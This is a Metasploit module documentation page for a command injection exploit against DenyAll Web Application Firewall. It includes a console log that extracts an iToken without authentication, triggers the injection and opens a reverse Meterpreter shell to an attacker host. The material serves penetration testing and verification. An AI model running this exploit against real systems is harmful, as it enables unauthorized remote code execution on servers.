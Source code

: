 ## Vulnerable Application

This module exploits the command injection vulnerability of DenyAll Web Application Firewall. Unauthenticated user can execute a terminal command under the context of the web server user.

**Vulnerable Application Installation Steps**

It's possible to have trial demo for 15 days at Amazon Marketplace.
[https://aws.amazon.com/marketplace/pp/B01N4Q0INA?qid=1505806897911](https://aws.amazon.com/marketplace/pp/B01N4Q0INA?qid=1505806897911)

You just need to follow instruction above URL.

## Verification Steps

A successful check of the exploit will look like this:

```
msf > use exploit/linux/http/denyall_exec 
msf exploit(denyall_exec) > 
msf exploit(denyall_exec) > set RHOST 35.176.123.128
RHOST => 35.176.123.128
msf exploit(denyall_exec) > set LHOST 35.12.3.3
LHOST => 35.12.3.3
msf exploit(denyall_exec) > check
[*] 35.176.123.128:3001 The target appears to be vulnerable.
msf exploit(denyall_exec) > exploit 

[*] Started reverse TCP handler on 35.12.3.3:4444 
[*] Extracting iToken value from unauthenticated accessible endpoint.
[+] Awesome. iToken value = n84b214ad1f53df0bd6ffa3dcfe8059a
[*] Trigerring command injection vulnerability with  iToken value.
[*] Sending stage (40411 bytes) to 35.176.123.128
[*] Meterpreter session 1 opened (35.176.123.128:4444 -> 35.12.3.3:60556) at 2017-09-19 14:31:52 +0300

meterpreter > pwd
/var/log/denyall/reverseproxy
meterpreter >
```

